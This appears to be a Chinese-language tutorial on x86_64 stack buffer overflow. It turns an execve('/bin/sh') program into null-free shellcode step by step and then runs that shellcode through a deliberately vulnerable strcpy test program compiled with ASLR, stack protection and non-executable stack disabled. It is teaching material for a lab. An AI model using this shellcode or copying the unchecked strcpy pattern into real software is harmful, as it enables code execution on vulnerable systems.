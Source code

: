 # 栈溢出攻击介绍

## 准备环境
> 关闭堆栈随机化：echo 0 > /proc/sys/kernel/randomize_va_space

## 编写shell code代码

    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>

    int main(int argc, char **argv)
    {
        char *name[2];

        name[0] = "/bin/sh";
        name[1] = NULL;
        execve(name[0], NULL, NULL);
        exit(0);
 
        return 0;
    }
    
> 首先，shellcode代码需要静态编译即`gcc -static shellcode.c -o shellcode`,
> 然后反汇编shellcode：objdump -saxd shellcode > shellcode.s，内容如下：

    000000000043d6b0 <__execve>:
    01:   f3 0f 1e fa             endbr64  
    02:   b8 3b 00 00 00          mov    $0x3b,%eax
    03:   0f 05                   syscall
    04:   48 3d 01 f0 ff ff       cmp    $0xfffffffffffff001,%rax  
    05:   73 01                   jae    43d6c4 <__execve+0x14>
    06:   c3                      retq
    07:   48 c7 c1 c0 ff ff ff    mov    $0xffffffffffffffc0,%rcx  
    08:   f7 d8                   neg    %eax
    09:   64 89 01                mov    %eax,%fs:(%rcx)
    10:   48 83 c8 ff             or     $0xffffffffffffffff,%rax  
    11:   c3                      retq
    12:   66 2e 0f 1f 84 00 00    nopw   %cs:0x0(%rax,%rax,1)
    13:   00 00 00   
    14:   90                      nop
    
    00000000004016d5 <main>:
    15:   55                      push   %rbp     
    16:   48 89 e5                mov    %rsp,%rbp
    17:   48 83 ec 20             sub    $0x20,%rsp
    18:   89 7d ec                mov    %edi,-0x14(%rbp)  
    19:   48 89 75 e0             mov    %rsi,-0x20(%rbp)
    20:   48 c7 45 f0 10 00 48    movq   $0x480010,-0x10(%rbp)
    21:   00   
    22:   48 c7 45 f8 00 00 00    movq   $0x0,-0x8(%rbp)
    23:   00 
    24:   48 8b 45 f0             mov    -0x10(%rbp),%rax  
    25:   ba 00 00 00 00          mov    $0x0,%edx
    26:   be 00 00 00 00          mov    $0x0,%esi
    27:   48 89 c7                mov    %rax,%rdi  
    28:   e8 a6 bf 03 00          callq  43d6b0 <__execve>
    29:   bf 00 00 00 00          mov    $0x0,%edi
    30:   e8 7c 77 00 00          callq  408e90 <exit> 
    31:   66 2e 0f 1f 84 00 00    nopw   %cs:0x0(%rax,%rax,1)
    32:   00 00 00 
    33:   66 90                   xchg   %ax,%ax
    
    Contents of section .rodata: 480000 01000200 00000000 00000000 00000000
    ................
    480010 2f62696e 2f736800 00000000 00000000  /bin/sh.........
    
> 提取20行-28行，并将28行用01行-03行替换，可以得到一段未经过处理的shell code,如下

    01:   48 c7 45 f0 10 00 48    movq   $0x480010,-0x10(%rbp) # 取rodata段的内容到栈上
    02:   48 8b 45 f0             mov    -0x10(%rbp),%rax      # 将栈上的内容放置到rax寄存器
    03:   ba 00 00 00 00          mov    $0x0, %edx            # 初始化第三个参数
    04:   be 00 00 00 00          mov    $0x0, %rsi            # 初始化第二个参数
    05:   48 89 c7                mov    %rax,%rdi             # 初始化第一个参数
    06:   b8 3b 00 00 00          mov    $0x3b, %eax           # 设置系统调用号码
    07:   f3 0f 1e fa             endbr64
    08:   0f 05                   syscall                      # 系统调用
    
> 01行中的0x480010地址的内容在rodata段上面，值为2f62696e 2f736800，即/bin/sh。但是在注入代码中不会存在这个值，因此需要将该静态存储值转换到栈中，转换后如下，

    01:   48 83 ec 08             sub $0x8, %rsp        # 开辟8个字节的栈空间
    02:   48 c7 c0 2f 62 69 6e    mov $0x6e69622f, %rax # 将/bin存放到rsp开始的连续4字节   
    03:   48 89 04 24             mov %rax, (%rsp)
    04:   48 c7 c0 2f 2f 73 68    mov $0x68732f2f, %rax # 将//sh存放到rsp+4开始的连续4字节，占用8字节的栈空间
    05:   48 89 44 24 04          mov %rax, 0x4(%rsp)
    06:   ba 00 00 00 00          mov $0x0, %edx
    07:   be 00 00 00 00          mov $0x0, %rsi
    08:   48 89 e7                movq %rsp, %rdi
    09:   b8 3b 00 00 00          mov $0x3b, %eax
    10:   f3 0f 1e fa             endbr64
    11:   0f 05                   syscall
    
> 其中，由于我们采用的是栈攻击，并且是对strcpy进行攻击（strcpy是以'\0'作为结尾的，因此在shellcode里面不能有'\0'字符出现），因此需要将06-07行，09行进行转换，转换后结果为，

    01:   48 83 ec 08             sub $0x8, %rsp
    02:   48 c7 c0 2f 62 69 6e    mov $0x6e69622f, %rax
    03:   48 89 04 24             mov %rax, (%rsp)
    04:   48 c7 c0 2f 2f 73 68    mov $0x68732f2f, %rax
    05:   48 89 44 24 04          mov %rax, 0x4(%rsp)
    06:   31 d2                   xor %edx, %edx   # 清0用异或替代
    07:   48 31 f6                xor %rsi, %rsi   # 清0用异或替代
    08:   48 89 e7                movq %rsp, %rdi
    09:   31 c0                   xor %eax, %eax   # 清0用异或替代
    10:   b0 3b                   mov $0x3b, %al   # 只操作eax的低8位
    11:   f3 0f 1e fa             endbr64
    12:   0f 05                   syscall
    
> 将如上，汇编编译成机器码，可以得到shellcode为，

    0x48,0x83,0xec,0x08,                     // sub    $0x8,%rsp
    0x48,0xc7,0xc0,0x2f,0x62,0x69,0x6e,      // mov    $0x6e69622f,%rax 
    0x48,0x89,0x04,0x24,                     // mov    %rax,(%rsp)
    0x48,0xc7,0xc0,0x2f,0x2f,0x73,0x68,      // mov    $0x68732f2f,%rax
    0x48,0x89,0x44,0x24,0x04,                // mov    %rax,0x4(%rsp)
    0x31,0xd2,                               // xor    %edx,%edx 
    0x48,0x31,0xf6,                          // xor    %rsi,%rsi
    0x48,0x89,0xe7,                          // mov    %rsp,%rdi 
    0x31,0xc0,                               // xor    %eax,%eax
    0xb0,0x3b,                               // mov    $0x3b,%al
    0xf3,0x0f,0x1e,0xfa,                     // endbr64
    0x0f,0x05,                               // syscall
    
> 将这段shellcode作为strcpy的src参数，拷贝给dest(dest的地址在栈上)，使其在拷贝过程中溢出，然后看运行效果。

## 被测试代码如下，

    #include <stdio.h>#include <string.h>
    #include <stdlib.h>
    
    #define MAX_SIZE 50     /*  buffer size in stack */

    /* X86_64 shell code */
    static char shell_code[] = {
        0x90,0x90,0x90,0x90,0x90,0x90,           // nop
        0x90,0x90,0x90,0x90,0x90,0x90,           // nop
        0x90,0x90,0x90,0x90,0x90,0x90,           // nop
        0x90,0x90,0x90,0x90,0x90,0x90,           // nop
        0x48,0x83,0xec,0x08,                     // sub    $0x8,%rsp
        0x48,0xc7,0xc0,0x2f,0x62,0x69,0x6e,      // mov    $0x6e69622f,%rax 
        0x48,0x89,0x04,0x24,                     // mov    %rax,(%rsp)
        0x48,0xc7,0xc0,0x2f,0x2f,0x73,0x68,      // mov    $0x68732f2f,%rax
        0x48,0x89,0x44,0x24,0x04,                // mov    %rax,0x4(%rsp)
        0x31,0xd2,                               // xor    %edx,%edx
        0x48,0x31,0xf6,                          // xor    %rsi,%rsi
        0x48,0x89,0xe7,                          // mov    %rsp,%rdi
        0x31,0xc0,                               // xor    %eax,%eax
        0xb0,0x3b,                               // mov    $0x3b,%al
        0xf3,0x0f,0x1e,0xfa,                     // endbr64
        0x0f,0x05,                               // syscall
        0x90,0x90,0x90,                          // nop
        0xe0,0xde,0xff,0xff,0xff,0x7f,0x00,0x00, // rip = shellcode address
    };

    static int string_copy(char * src)
    {
        char dest[MAX_SIZE];

        if (strcpy (dest, src) == NULL)
            printf ("strcpy failed\n");
        else 
            printf ("strcpy success\n");

        return 0;
    }

    int main(int argc, char *argv[])
    {
        int size;
    
        size = string_copy(shell_code);
    
        while (size-- > 0) {
            printf("wait...\n");
            sleep (1);
        }
    
        return 0;
    }

> 编译方式：gcc -g -z execstack -fno-stack-protector stack_test.c -o stack_test


> 注意：因为strcpy的目标缓冲区是50个字节，然后ebp占用8字节， rip占用8字节，栈对齐到16字节，因此shellcode需要80字节，而我们的shellcode不够80字节，剩下的用nop填充，即0x90。最后在rip的位置填充好的shellcode在栈上面的其实地址即可。
